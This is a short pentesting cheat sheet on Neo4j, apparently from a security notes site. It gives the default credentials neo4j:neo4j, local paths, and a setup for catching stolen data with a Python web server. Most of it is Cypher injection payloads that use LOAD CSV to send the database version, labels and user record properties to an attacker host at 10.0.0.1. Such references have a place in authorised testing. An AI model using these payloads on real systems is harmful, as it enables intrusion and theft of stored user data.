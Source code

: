 ```yaml
---
title: Neo4j Pentesting
description: Neo4j is a graph database management system developed by Neo4j. Default ports are 6362 (Backup), 7474 (HTTP), 7473 (HTTPS), 7687 (Bolt).
tags:
    - Database
    - Privilege Escalation
refs:
    - https://book.hacktricks.xyz/pentesting-web/sql-injection/cypher-injection-neo4j
    - https://pentester.land/blog/cypher-injection-cheatsheet/
date: 2023-04-27
draft: false
---
```


## Default Credentials

```bash
neo4j:neo4j
```

<br />

## Common Directories & Files in Local System

```bash
/var/lib/neo4j
/var/log/neo4j
```

<br />

## Cypher Injection

Before injecting payloads, we need to start local web server to fetch the result of the query.

```html
sudo python3 -m http.server 80
```

Below are payloads.

In some payloads, replace **`10.0.0.1`** with your ip address.

```html
<!-- Get Neo4j version -->
' OR 1=1 WITH 1 as a CALL dbms.components() YIELD name, versions, edition UNWIND versions as version LOAD CSV FROM 'http://10.0.0.1/?version=' + version + '&name=' + name + '&edition=' + edition as l RETURN 0 as _0 //

<!-- Get labels -->
' OR 1=1 WITH 1 as a  CALL db.labels() yield label LOAD CSV FROM 'http://10.0.0.1/?label='+label as l RETURN 0 as _0 //

<!-- Get properties of the key -->
' OR 1=1 WITH 1 as a MATCH (f:user) UNWIND keys(f) as p LOAD CSV FROM 'http://10.0.0.1/?' + p +'='+toString(f[p]) as l RETURN 0 as _0 //
```